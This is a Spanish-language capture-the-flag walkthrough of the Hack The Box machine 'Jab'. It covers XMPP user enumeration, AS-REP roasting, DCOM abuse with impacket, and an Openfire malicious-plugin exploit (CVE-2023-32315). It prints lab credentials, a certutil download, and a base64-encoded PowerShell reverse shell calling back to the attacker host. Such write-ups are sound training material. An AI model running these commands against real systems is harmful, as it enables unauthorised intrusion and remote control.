


# Jab

`Jab` es una máquina Windows de dificultad media que cuenta con un servidor `XMPP Openfire` alojado en un controlador de dominio (DC). El registro público en el servidor `XMPP` permite al usuario registrar una cuenta. Luego, al recuperar una lista de todos los usuarios del dominio, se encuentra una cuenta kerberoastable, que permite al atacante descifrar el hash recuperado para la contraseña del usuario. Al visitar las salas de chat XMPP de la cuenta, se recupera la contraseña de otra cuenta.

Esta nueva cuenta tiene privilegios `DCOM` sobre el DC, lo que otorga al atacante acceso local a la máquina. Finalmente, un complemento malicioso cargado a través del panel de administración de `Openfire` alojado localmente le otorga al usuario acceso al `SISTEMA`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Jab.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

Verificaremos también a qué tipo de máquina nos enfrentamos a través de **netexec**.

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

<figure><figcaption></figcaption></figure>

## Enumeration

Procederemos a intentar enumerar a través de la herramienta de **NSrpcenum** que nos otorga la capacidad de a través de una null session de enumerar por el protocolo RPC.

```bash
NSrpcenum -e All -i 10.10.11.4
```

<figure><figcaption></figcaption></figure>

Probaremos de visualizar los recursos compartidos que hay en SMB, nos encontramos que no nos permite visualizarlos.

```bash
smbclient -L //10.10.11.4 -N
```

<figure><figcaption></figcaption></figure>

También probaremos de realizar un ataque de **RID Brute Force Attack** para enumerar usuarios, sin éxito tampoco.

```bash
netexec smb 10.10.11.4 -u 'Guest' -p '' --rid-brute
```

<figure><figcaption></figcaption></figure>

A través de la herramienta de **Kerbrute** hemos podido enumerar una gran cantidad de usuarios, pero veremos si podemos enumerar los usuarios de otra manera más delante.


```bash
kerbrute userenum --dc 10.10.11.4 -d jab.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


<figure><figcaption></figcaption></figure>

## XMPP/Jabber Enumeration via Pidgin

XMPP (Extensible Messaging and Presence Protocol) es un protocolo abierto de comunicación en tiempo real, ideal para la mensajería instantánea, y es la base de servicios como Jabber. Es súper útil porque permite a los usuarios enviarse mensajes, realizar llamadas de voz y video, e incluso compartir archivos, todo de una manera segura y privada. A diferencia de otros servicios de mensajería más centralizados, XMPP es descentralizado y permite que cualquiera pueda crear su propio servido

Para conectarnos al XMPP/Jabber utilizaremos el cliente llamado **Pidgin** que nos permite crear una cuenta en el servidor si no disponemos de credenciales válidas. Indicaremos nuestro nombre de usuario y el dominio (jab.htb).

<figure><figcaption></figcaption></figure>

En el apartado de "Avanzadas" estableceremos la dirección IP del Domain Controller, es decir, el servidor de Jab, dejaremos el puerto por defecto que es el que se encuentra expuesto el servicio de XMPP/Jabber

<figure><figcaption></figcaption></figure>

Aceptaremos el certificado del servidor.

<figure><figcaption></figcaption></figure>

Completaremos el registro de nuestro usuario que hemos creado.

<figure><figcaption></figcaption></figure>

Verificaremos que el registro se ha realizado con éxito con el usuario que hemos creado.

<figure><figcaption></figcaption></figure>

En **Pidgin** accederemos a (Cuentas < Habilitar cuenta < usuario).

<figure><figcaption></figcaption></figure>

Buscaremos nuevas salas disponibles en nuestro usuario de Pidgin. Nos hace referencia a (conference.jab.htb)

<figure><figcaption></figcaption></figure>

Añadiremos esta nueva entrada en nuestro archivo **/etc/hosts**

<figure><figcaption></figcaption></figure>

Probaremos de acceder a la lista "test" y nos aparece un error al intentar unirnos a la sala.

<figure><figcaption></figcaption></figure>

Accediendo a la sala "test2" comprobamos que aparece un chat con un código en Base64.

<figure><figcaption></figcaption></figure>

Probaremos a descodificar el contenido, pero no vemos nada interesante.

```bash
echo "VGhlIGltYWdlIGRhdGEgZ29lcyBoZXJlCg==" | base64 -d; echo
```

<figure><figcaption></figcaption></figure>

El usuario del chat se llama "bdavis", podemos validar si este usuario es válido a través de **Kerbrute**.

```bash
kerbrute userenum --dc 10.10.11.4 -d jab.htb users
```

<figure><figcaption></figcaption></figure>

Entre las opciones que nos ofrece **Pidgin**, nos aparece la opción de "Buscar usuarios".

<figure><figcaption></figcaption></figure>

Nos indica de seleccionar un directorio de usuario donde buscar (search.jab.htb).

<figure><figcaption></figcaption></figure>

Añadiremos la nueva entrada en **/etc/hosts**

<figure><figcaption></figcaption></figure>

Volveremos a la ventana de Pidgin, y estableceremos que busque todos los resultados a través de un (\*)

<figure><figcaption></figcaption></figure>

Comprobaremos que nos aparece todo el listado de usuarios del dominio.

<figure><figcaption></figcaption></figure>

Como no podemos copiar los usuarios del Pidgin y tendríamos que ir uno por uno, realizaremos lo siguiente.

Ejecutaremos Pidgin en modo debug en nuestra Kali y todo el resultado lo guardaremos en "debug.txt".

Comprobamos que si volvemos a realizar el mismo proceso des de la aplicación, nos aparece en el debug todo el resultado de los usuarios encontrados.

```
pidgin --debug | tee debug.txt
```

<figure><figcaption></figcaption></figure>

A través de expresiones regulares (regex) nos quedaremos con los nombres de los usuarios y lo guardaremos en el archivo "users.txt".


```bash
cat debug.txt | grep -oP '(?<=<value>).*?(?=</value>)' | grep 'jab.htb' | sort -u | awk '{print $1}' FS="@" | grep -v "xmpp" > users.txt
```


## AS-REP Roast Attack (GetNPUsers)

Ya que tenemos una gran lista de usuarios válidos, probaremos de realizar un **AS-REP Roasting Attack** para obtener un Ticket Granting Ticket (TGT).

<figure><figcaption></figcaption></figure>

## Cracking Hashes with John

Comprobaremos los tickets TGTs que hemos encontrado y con **john** procederemos a crackear las contraseñas de los hashes.

<figure><figcaption></figcaption></figure>

Validaremos las credenciales válidas con **netexec** para autenticarnos en SMB y WinRM.

<figure><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Ya que tenemos unas credenciales válidas, probaremos de realizar un **Kerberoasting Attack** para obtener un Ticket Granting Service (TGS).

<figure><figcaption></figcaption></figure>

## SMB Enumeration via Netexec + Module (spider\_plus)

Probaremos de enumerar el SMB con las credenciales del usuario (jmontgomery) y a través del módulo (spider\_plus), este módulo lo que hace es guardarte en formato JSON todas las rutas de los archivos que se encuentran en el SMB, para así saber donde hay archivos y ir directamente luego a por ellos.

```bash
netexec smb 10.10.11.4 -u 'jmontgomery' -p 'Midnight_121' -M spider_plus
```

<figure><figcaption></figcaption></figure>

Comprobaremos accediendo al contenido temporal JSON que nos crea el módulo de los archivos que se encuentran en el SMB y sus respectivas rutas. Ninguno de los presentes nos interesa.

<figure><figcaption></figcaption></figure>

## Information Leakage via Pidgin

Probaremos de acceder con las credenciales de (jmontgomery) al XMPP a través del cliente Pidgin.

<figure><figcaption></figcaption></figure>

Indicaremos la dirección IP del servidor de **jab.htb**

<figure><figcaption></figcaption></figure>

Comprobaremos que buscando nuevas salas con este usuario, nos aparece una nueva sala nombrada "pentest2003", probaremos de acceder a la nueva sala.

<figure><figcaption></figcaption></figure>

En la nueva sala, aparece una conversación en la cual realizan un Ticket Granting Service (TGS) y crackean la contraseña de un usuario "svc\_openfire".

<figure><figcaption></figcaption></figure>

Este es el final de la conversación en la cual logran crackear la contraseña.

<figure><figcaption></figcaption></figure>

Validaremos si estas credenciales son válidas para el usuario para autenticarse al SMB o WInRM. Comprobamos que las credenciales si son válidas pero aún no podemos acceder mediante WinRM al terminal.

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Como disponemos de credenciales válidas, procederemos a realizar una enumeración con **BloodHound** para ver vías potenciales para escalar nuestros privilegios.


```bash
bloodhound-python -c all -u svc_openfire -p '!@#$%^&*(1qazxsw' -d jab.htb -ns 10.10.11.4
```


<figure><figcaption></figcaption></figure>

Comprobamos que el usuario "svc\_openfire" tiene permisos de "ExecuteDCOM" sobre el equipo DC01.jab.htb.

<figure><figcaption></figcaption></figure>

**BloodHound** nos explica en qué consiste que el usuario forme parte de dicho permiso.

Cuando un usuario tiene permisos de **DCOM (Distributed Component Object Model)** sobre un equipo, esto le permite controlar y ejecutar aplicaciones distribuidas en ese sistema desde una ubicación remota. En otras palabras, puede acceder a ciertos servicios y funcionalidades de la máquina objetivo de forma remota, lo que es útil en escenarios de administración o monitoreo en red.

<figure><figcaption></figcaption></figure>

### Abusing ExecuteDCOM Execution Right (impacket-dcomexec)

Este primer comando inicia una sesión DCOM en la máquina objetivo (10.10.11.4) usando las credenciales del usuario svc\_openfire del dominio jab.htb, establecemos la conexión inicial sin ejecutar ningún comando en específico, solo para acceder al sistema con esas credenciales. Nos muestra un error, esto seguramente por el tipo de DCOM que está utilizando, el que se utiliza por defecto es (ShellWindows) pero podemos probar otros DCOM.

En este segundo comando, ejecutamos un ping hacia nuestra Kali. Probamos el objeto DCOM "MMC20", que es una interfaz que permite la ejecución remota de comandos a través de DCOM. La opción -silentcommand evita que el comando muestre salida en la pantalla, haciendo que la ejecución sea más discreta. Des de otra terminal nos pondremos en escucha con **tcpdump** para ver si se ha realizado el Ping des de la máquina víctima a nuestra máquina, para así saber si podemos ejecutar comandos.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&#x26;*(1qazxsw'@10.10.11.4

<strong>impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&#x26;*(1qazxsw'@10.10.11.4 'ping 10.10.14.14' -object MMC20 -silentcommand
</strong><strong>
</strong><strong>tcpdump -i tun0 icmp -n
</strong></code></pre>

<mark style="color:red;">**Tip**</mark><mark style="color:red;">: probar otros objetos DCOM (impacket-dcomexe) {ShellWindows, ShellBrowserWindow,MMC20}</mark>

<figure><figcaption></figcaption></figure>

### RCE through the abuse of a DCOM object with impacket-dcomexec

Comprobado que podemos ejecutar comandos a través de la ejecución de DCOM, lo que haremos es ejecutar una Reverse Shell. Nos copiaremos el script de **Invoke-PowerShellTcpOneLine.ps1** de **nishang** a nuestro directorio actual de trabajo.&#x20;

Editaremos el archivo para establecer la dirección IP de nuestra Kali y el puerto donde estaremos en escucha. Seguidamente el script lo codificaremos en Base64 de Windows (ya que si utilizamos el Base64 de Kali, no funcionará).

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1

mv Invoke-PowerShellTcpOneLine.ps1 rev.ps1

catnp rev.ps1

cat rev.ps1 | iconv -t utf-16le | base64 -w 0; echo
```

<figure><figcaption></figcaption></figure>

Enviaremos el comando de ejecución DCOM de la Reverse Shell en PowerShell encodeado en Base64. Nos pondremos en escucha por el puerto que hemos indicado en el Script y al enviar el DCOM con **impacket-dcomexec** comprobamos que ganamos acceso.


```bash
impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4AMQA0ACcALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAAoA' -object MMC20 -silentcommand

rlwrap -cAr nc -nlvp 443
```


<figure><figcaption></figcaption></figure>

## Initial Access

Comprobaremos que ganamos acceso a la máquina, revisando qué programas existene en el equipo, comprobamos que hay una carpeta nombrada "Openfire".

<figure><figcaption></figcaption></figure>

Iremos accediendo a los directoriso de Openfire para ver si encontramos alguna información interesante.

<figure><figcaption></figcaption></figure>

Comprobamos en el archivo de configuración del Openfire, comprobamos que menciona el puerto 9090.

<figure><figcaption></figcaption></figure>

Revisando que puertos tenemos abiertos en la máquina Windows, comprobamos que tenemos un puerto interno 9090, que en principio debería ser el del Openfire.

```
netstat -an | findstr "LISTEN".
```

<figure><figcaption></figcaption></figure>

### Remote Port Forwarding (Chisel)

Debido que el puerto 9090 es un puerto interno de la máquina Windows y des de nuestra Kali no tendríamos acceso, realizaremos un Port-Forwarding a través de **Chisel** para llegar al puerto interno de la máquina.

Nos descargaremos el Chisel des del repositorio de Github a nuestra versión correspondiente de Kali y Windows - [Github Chisel](https://github.com/jpillora/chisel/releases/)

Descromprimiremos los archivos y al nuestro de Kali le daremos permisos de ejecución.

<figure><figcaption></figcaption></figure>

En una terminal de nuestra Kali, levantaremos un servidor web con Python para compartirnos el archivo **chisel.exe** a la máquina Windows, con **certutil** nos lo descargaremos en un directorio que tengamos permisos.

```bash
python3 -m http.server 80

certutil -f -urlcache -split http://10.10.14.14/chisel.exe chisel.exe
```

<figure><figcaption></figcaption></figure>

Configuraremos que nuestra Kali actúe como servidor de **chisel** por el puerto p.e 1234, y que la máquina Windows actúe el **chisel** como cliente y se conecte al servidor y le indique que su puerto 9090 será el puerto 9090 de la Kali.

```bash
./chisel server --reverse -p 1234

.\chisel.exe client 10.10.14.14:1234 R:9090:127.0.0.1:9090
```

<figure><figcaption></figcaption></figure>

Comprobaremos que si accedemos des de nuestra Kali a [http://localhost:9090](http://localhost:9090) ya podemos ver el puerto interno de la máquina Windows y efectivamente se trata del Openfire.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### OpenFire Exploitation (CVE-2023-32315) - Malicious plugin installation \[Privilege Escalation]

Accederemos al panel de Openfire y comprobamos que tenemos la versión 4.7.5. Buscando exploits para esta versión de Openfire nos encontramos la siguiente en la cual [CVE-2023-32315](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce) podemos hacer llegar a obtener un RCE (Remote Code Execution)

<figure><figcaption></figcaption></figure>

Para hacer este exploit, necesitamos tener un usuario Administrator del panel de Openfire, en el caso de no disponerlo, nos indica como crear uno.

En nuestro caso el usuario con el que hemos accedido (svc\_openfire) es usuario Administrator.

<figure><figcaption></figcaption></figure>

Nos descargaremos el plugin vulnerable que nos ofrece el repositorio del exploit. - [GitHub](https://github.com/miko550/CVE-2023-32315)

<figure><figcaption></figcaption></figure>

Subiremos el plugin en el apartado de "Plugins".

<figure><figcaption></figcaption></figure>

Verificaremos que se ha subido correctamente.

<figure><figcaption></figcaption></figure>

Accederemos al apartado de "Server Settings" y le daremos a "Management Tool"

<figure><figcaption></figcaption></figure>


Accederemos al panel de administración poniendo "123".

<figure><figcaption></figcaption></figure>

Probaremos de ejecutar un comando, por ejemplo "whoami" y comprobamos que el usuario que levanta el servicio de Openfire es el de "NT Authority\SYSTEM".

<figure><figcaption></figcaption></figure>

Nos pondremos en escucha por el puerto 443.

<figure><figcaption></figcaption></figure>

Y le enviaremos el comando de PowerShell encodeado en BAse64 para conseguir una Reverse Shell&#x20;

<figure><figcaption></figcaption></figure>

Comprobamos que ganamos acceso como usuario Administrator y localizamos la flag de **root.txt**

<figure><figcaption></figcaption></figure>
